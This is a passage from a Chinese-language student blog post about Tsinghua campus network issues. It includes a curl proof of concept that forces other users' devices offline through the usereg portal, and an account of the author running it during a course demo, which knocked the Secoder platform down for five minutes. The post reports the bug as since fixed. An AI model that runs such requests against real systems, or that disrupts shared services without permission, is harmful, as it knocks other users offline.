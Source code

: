 > ```
>
> 可以下线别人的设备。另一个方式同理且可以批量尝试下线设备：
>
> ```bash
> curl 'https://usereg.tsinghua.edu.cn/import_online_user.php' \
> -H 'Accept: */*' \
> -H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-GB;q=0.6,zh-TW;q=0.5' \
> -H 'Content-Type: application/x-www-form-urlencoded' \
> -H 'Cookie: PHPSESSID={SESSION ID}' \
> -H 'Origin: https://usereg.tsinghua.edu.cn' \
> -H 'Referer: https://usereg.tsinghua.edu.cn/import_online_user.php' \
> -H 'Sec-Fetch-Dest: empty' \
> -H 'Sec-Fetch-Mode: cors' \
> -H 'Sec-Fetch-Site: same-origin' \
> -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0' \
> -H 'sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"' \
> -H 'sec-ch-ua-mobile: ?0' \
> -H 'sec-ch-ua-platform: "Linux"' \
> --data-raw 'action=drops&user_ip={id list i.e. `1,2,3,4,5`}' \
> --compressed
> ```

然后 its 说 "目前是根据用户端IP做验证，只有同一子网内递交的才可能存在踢别人下线", 不想解决这个问题. 于是咱直接公开了这个 PoC.

学期块结束的时候, 咱跟 Lambda 助教在食堂相遇, 提到 Secoder 的稳定性, 咱表示 Secoder 在校园网里面, 知道 IP == DoS. 他觉得 Secoder 肯定有自动维持登录的方式, 坏不了. 于是在课上验收的时候咱运行了一下 PoC -- Secoder 炸了 5min. (乐)

估计是这件事让软工课程组跟 its 反馈了这个问题, 现在这个漏洞修了, 大家只能下线自己所在的 IP 和自己账号的 IP 了. 漏洞修复了对大家都有好处.

(果然, 只有一个问题造成了 __不大不小__ 的影响, 它才能够在不被处分的前提下得到足够的重视)

---

## 寝室的网 - AP 掉线三进三出

210B 的 Tsinghua-Secure 由 210A 的 AP 提供. 平常网就不咋样, 那个 AP 还偶尔掉线连不上 AC.

> 2023 年 12 月 18 日
>
> 紫荆公寓_2_号楼_2_单元_2_楼_华为_AP_未连接到_AC
>
> 用户邮件反馈，请老师查看，谢谢
>
> \-----
>
> 邮件原文
>
> 紫荆公寓 2 号楼 2 单元 210B 附近的一个华为 AP (AP5X30XN_V200R007C20SPCa00) 未连接到 AC, 目前正发射默认的管理 WLAN 信号. 连接上之后显示 AP Mode Fit. 宿舍里的 Tsinghua-Secure 信号也不怎么样, 疑似是由于这个 AP 掉线导致的. 麻烦请人检查一下. 

its 来重新插拔了一下 AP 供电, 好了.

